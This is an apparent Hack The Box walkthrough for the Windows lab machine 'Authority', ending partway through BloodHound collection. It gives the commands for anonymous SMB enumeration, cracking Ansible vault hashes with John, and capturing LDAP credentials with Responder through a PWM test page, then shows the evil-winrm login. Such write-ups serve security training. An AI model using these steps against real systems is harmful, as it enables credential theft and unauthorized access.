<h1>HTB: Authority</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Authority)       |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 23rd 2026                                                   |

--- 

<h2>Enumeration</h2>

Before we do anything lets create three files:

1. <b>credentials.txt</b> where we will store valid username/passwd combinations
2. <b>users.txt</b> where we will store all usernames we come across
3. <b>pass.txt</b> where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse.


<h3>NMAP</h3>

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.229.56 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an a `dns server` on port 53, http server on port 80 and 8443 running `Apache Tomcat`, `ldap` on port 389, `kerberos` on port 88, `smb` share on port 445, and `windows remote management` on port 5985 among other things. We can also see that the Host is named  `AUTHORITY`, the domain is `authority.htb`, and the DNS is `authority.htb.corp` so lets add `authority.htb.corp` and `authority.htb` to our /etc/hosts file.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-23 23:29:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-07-23T23:30:06+00:00; +3h59m41s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-23T23:30:06+00:00; +3h59m41s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-23T23:30:06+00:00; +3h59m41s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-07-23T23:30:06+00:00; +3h59m41s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/http      Apache Tomcat (language: en)
| tls-alpn: 
|_  h2
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-07-21T23:24:32
|_Not valid after:  2028-07-23T11:02:56
|_ssl-date: TLS randomness does not represent time
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

...

Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

```


<h3>Web Recon</h3>

Let's explore the webpages starting with the one running on port 80:



Not very interesting, what about the one running on port 8443:



Clicking on the `Configuration Manager` button we are taken to a page that lists previous authentications:



Here we see that the service account `svc_pwm` has authenticated four times, let's add that username to our users.txt file.

Let's move to enumerating the smb share using `netexec`.

<h3>NetExec smb</h3>

Since we do not have any valid credentials we will have to attempt to authenticate using guest with no password. We can test this using the netexec command:

```
netexec smb 10.129.229.56  -u guest -p ''
```



Great! So the smb share supports `guest` login, lets use this to list the shares by simply adding `--shares` to the previous command:

```
netexec smb 10.129.229.56  -u guest -p '' --shares
```



We can see there are a couple not standard shares:

- Department Shares
- Development

As a guest we have `READ` permissions on the `Development` share so lets use the `--spider` option to enumerate the share:

```
netexec smb 10.129.229.56  -u guest -p '' --shares --spider Development --regex .

```



From this we can see the share contains various `Ansible Automation` folders including `PWM` so lets explore this directory using `smbclient`:

<h3>SMBClient</h3>

After connecting to the share using the command:

```
smbclient -N //10.129.229.56/Development
```

We can navigate to `\Automation\Ansible\PWM\` and list its contents:



Then `ansible_inventory` file contains some credentials:



Attempting to use these credentials to login to the `PWM` webpage we get an error but do find another user to add to our users.txt file. `svc_ldap`:



Going back to the smb share we find that in the `defaults` folder there is a `main.yml` file than contains encrypted ansible vault credentials:



In order to decrypt these credentials we need to first decrypt the vault password using `John the Ripper`.

<h3>John The Ripper</h3>

First we need to copy the encrypted vault cred to their own files, `pwm_username.yml` and `pwm_password.yml`.

Before we can decrypt the credentials we need to extract the vaults password using `ansible2john`:

```
ansible2john pwm_username.yml >> ansible.hash
```

Then we can crack the has stored in the `ansible.hash` file using `John`:

```
john ansible.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Now we can move onto decrypting the credentials using `ansible-vault`.

<h3>Ansible-Vault</h3>

We can decrypt the credentials using the command:

```
ansible-vault view pwm_username.yml
```
and

```
ansible-vault view pwm_password.yml
```



We can also repeat this process with the `ldap_admin_password` at the bottom of the main.yml file:



<h3>PWM Config Dashboard</h3>

Using the pwm credentials we just obtained we are able to login to the configuration dashboard:



Click through the dropdown menu to `LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection` we find this `Test LDAP Profile` page:

 

Clicking on the button result in a popup saying there was a connection error:



We can however add our own LDAP url so lets use this to attempt to gain some credentials using `Responder`.

<h3>Responder</h3>

Let's first set up our responder by running:

```
sudo responder -I tun0
```

We use tun0 in this case as that is the interface for our HTB vpn where the traffic will be coming from.

Next we need to add out own LDAP url to the test profile page using our attack box ip and port 389:



Now we are ready to click the `Test LDAP Profile` button and check our responder:



We got a response and it appears that the ldap credentials were also sent in cleartext so there is no need to crack them....

We can use these credentials to login to the target machine using `evil-winrm`.

<h3>Evil-WinRM</h3>

We can login by running the command:

```
evil-winrm -i authority.htb -u svc_ldap -p '*************'
```

Once logged in the user.txt flag can be found in the svc_ldap users Desktop directory:



Now let's use bloodhound-python to gain more information about the system.

<h2>Lateral Movement</h2>

<h3>BloodHound-Python</h3>

Before we run the bloodhound-python command we need to sync our attack machines clock to that of out target machine using the command:

'''
sudo ntpdate 10.129.229.56
'''

The we can run the command:

```
bloodhound-python -c All -d authority.htb -u svc_ldap -p '**************' -dc authority.htb -ns 10.129.229.56
```



From this we can see that bloodhound found 5 users, 53 groups, 3 gpos , 3 organizational units, and 19 containers.

Now we need to start the graphical instance of bloodhound using `bloodhound-start`, this will enable us to view the data/connections in a slick graphical dashboard.

All this information is stored in a series of .json files that we need to upload to our bloodhound dashboard:



Next we can go the `explore` tab and search for `svc_ldap` and mark them as owned:

